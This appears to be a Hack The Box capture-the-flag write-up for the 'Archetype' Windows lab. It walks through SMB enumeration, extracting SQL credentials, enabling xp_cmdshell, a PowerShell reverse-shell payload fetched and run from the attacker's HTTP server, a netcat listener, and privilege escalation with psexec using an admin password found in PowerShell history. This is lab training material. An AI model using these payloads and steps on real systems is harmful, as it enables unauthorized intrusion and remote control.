 # what did I learn
- [Impacket](https://github.com/SecureAuthCorp/impacket)
- sql
  - check if I have sysadmin privilage
  - ```xp_cmdshell``` to execute commands
- always check PowerShell history file
  - ```type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt```
- windows revers shell call ```shell.ps1```

# Enumerating
start with nmap. you wil find out that port 443 SMB and 1433 SQL server are open.

use ```smbclient``` and try to find out if we can anonymous access SMB.

```console
kali@kali:~/HTB$ smbclient -L \\\\10.10.10.27\\ # list all directory
kali@kali:~/HTB$ smbclient \\\\10.10.10.27\\ADMIN$ # try to connect admin but didnt work
kali@kali:~/HTB$ smbclient \\\\10.10.10.27\\backups # work with backup 
Enter WORKGROUP\kali's password: 
Try "help" to get a list of possible commands.
smb: \> ls # list file
  .                                   D        0  Mon Jan 20 07:20:57 2020
  ..                                  D        0  Mon Jan 20 07:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 07:23:02 2020

                10328063 blocks of size 4096. 8170812 blocks available
smb: \> get prod.dtsConfig # download it
getting file \prod.dtsConfig of size 609 as prod.dtsConfig (3.9 KiloBytes/sec) (average 3.9 KiloBytes/sec)
smb: \> exit 
kali@kali:~/HTB$ cat prod.dtsConfig 
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>
```
as you can see, we get the username and password for SQL server.

# foothold
clone [Impacket](https://github.com/SecureAuthCorp/impacket). run this to install
```console
pip3 install -r requierments.txt.
sudo setup.py install
```
now move to ```/impacket/examples``` we will use mssqlclient.py to connect to the sql server.
```console
kali@kali:~/impacket/examples$ python3 mssqlclient.py <username>@<ip> -windows-auth
```
We can use the ```IS_SRVROLEMEMBER``` function to reveal whether the current SQL user has sysadmin (highest level) privileges on the SQL Server. if so it will response **1**. use the command below:
```sql
select IS_SRVROLEMEMBER('sysadmin')
```
As sysadmin, we will be able to use ```xp_cmdshell```. we can execute this following commad to find out if we have admin privilage on the target
```sql
EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1
reconfigure;
xp_cmdshell "whoami" 
```
Nope the sql server is running in the context of the user ```ARCHETYPE\sql_svc``` However, this account doesn't seem to have administrative privileges on the host.


never mind, we will try to exploit it and try to get user flag by creating a revers shell and upload on our http server. then trick the sql server to download shell from our server. Lastly we will set up ```netcat``` and waiting for revers shell.


create ```shell.ps1``` this as the content
```shell
 $client = New-Object System.Net.Sockets.TCPClient("YOUR IP",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close() 
```
now use python simple http server
```console
kali@kali:~/HTB$ python3 -m http.server 80 
```
in another terminal. run netcat and listen on the same port which we have in our payload, in this case port 1234
```console
kali@kali:~/HTB$ nc -lvnp 1234
```
now execute this on in SQL server. This command will get the payload from ur http server and execute the revers shell thougth ```xp_cmdshell```
```sql
xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://<YOUR IP>/shell.ps1\");" 
```
Now just wait. and monitor the terminal which u executed ```netcat``` you will recieve the shell as *sql_sv* now try to find the flag (hint in desktop)

# Priv Esc
The next step is try to root the machine: the good place to look at is it is worth checking for frequently access files or executed commands. We can use the command below to access the PowerShell history file.
```cmd
# type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt 
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
exit
```
This reveals that the backups drive has been mapped using the local administrator credentials. As you can see here. we got admin password!


Now can use Impacket's ```psexec.py``` to gain a privileged shell. 
```console
kali@kali:~/impacket/examples$ python3 psexec.py administrator@10.10.10.27
```
now run ```whoami``` if the results is ```nt authority\system``` that means we root the machine. then last step is try to find root flag